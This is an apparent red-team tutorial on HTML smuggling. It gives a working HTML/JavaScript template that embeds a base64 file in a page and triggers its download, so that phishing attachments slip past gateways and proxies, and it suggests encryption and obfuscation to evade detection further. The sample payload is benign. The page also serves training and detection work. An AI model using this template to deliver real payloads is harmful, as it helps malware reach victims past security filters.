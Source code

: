 # HTML Smuggling

HTML smuggling is a means of leveraging modern HTML5 and JavaScript features to sneak files past traditional content filters.  In old-skool phishing emails, you may see something like a button with a simple HREF.  The file itself will sit somewhere in the web root, maybe `/var/www/html/report.zip`.  Then when clicked, the user's browser will perform another HTTP GET request to fetch the resource.  As it's being downloaded, scanners can see the file's content in the HTTP response.

HTML smuggling works by encoding the file in the HTML content itself and using JavaScript to decode and download it to the victim's machine.  This is a simple template based on work by [Stan Hegt](https://x.com/stanhacked).

```html
<html>
    <head>
        <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/font-awesome/6.5.2/css/brands.min.css">
    </head>
    <body>
        <button class="btn" onclick="downloadFile()"><i class="fa fa-download"></i> Download</button>

        <script>
            function convertFromBase64(base64) {
                let binary_string = window.atob(base64);
                let len = binary_string.length;
                let bytes = new Uint8Array(len);
                for (let i = 0; i < len; i++) {
                    bytes[i] = binary_string.charCodeAt(i);
                }
                return bytes.buffer;
            }

            function downloadFile() {
                const file = 'VGhpcyBpcyBhIHNtdWdnbGVkIGZpbGU=';
                const fileName = 'test.txt';
                let data = convertFromBase64(file);
                let blob = new Blob([data], {type: 'octet/stream'});
                if (window.navigator.msSaveOrOpenBlob) {
                    window.navigator.msSaveBlob(blob,fileName);
                }
                else {
                    const a = document.createElement('a');
                    document.body.appendChild(a);
                    a.style = 'display: none';
                    const url = window.URL.createObjectURL(blob);
                    a.href = url;
                    a.download = fileName;
                    a.click();
                    window.URL.revokeObjectURL(url);
                }
            }
        </script>
    </body>
</html>
```

In this example, the file content is base64 encoded and held in the `file` variable - which means the file content is already in the victim's browser when they load the page.  When the button is clicked, the `downloadFile` JavaScript function is executed which decodes the file back into its raw form, constructs a new href, and automatically invokes it.  The browser will then drop the file into the user's default downloads directory.  From the perspective of a gateway or proxy, they will only see HTML and JavaScript.  Even when smuggling binary files, there will be no traffic generated using the `application/octet-stream` mime type, which they would see when using traditional download methods.  The file being base64 encoded is a simple example but we don't need to stop there.  For instance, we could use the [Web Crypto API](https://developer.mozilla.org/en-US/docs/Web/API/Web_Crypto_API) to AES-encrypt the file content and [obfuscate](https://javascriptobfuscator.com/Javascript-Obfuscator.aspx) the JavaScript.
